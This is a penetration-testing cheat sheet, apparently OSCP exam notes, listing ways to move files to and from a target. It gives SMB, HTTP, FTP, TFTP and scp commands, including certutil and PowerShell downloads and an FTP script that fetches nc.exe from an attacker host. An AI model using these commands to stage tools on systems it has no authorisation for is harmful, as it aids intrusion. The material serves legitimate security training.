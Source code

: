# File Transfers

CREDIT: https://github.com/rodolfomarianocy/OSCP-Tricks-2023/blob/main/file_transfers.md

## SMB Server
-> Setting
```
impacket-smbserver <share> . -smb2support -user user -password test321
```
-> Transfer
```
net use \\<smbserver>\<share> /USER:user test321
copy \\<smbserver>\<share>\nc.exe .
```

TRY ALSO
smbclient //<TARGET_IP>/share -c 'put <FILE_NAME>'

## HTTP
-> start a web server
```
python -m SimpleHTTPServer 80
service apache2 start
```

-> Windows - file download
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux - file download
```
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
-> Install and Configure
```
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp
-> Install and Configure
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> Transfer
```
tftp -i <IP> get file
```

## scp
```
scp file <user>@192.168.0.20:/home/user/
```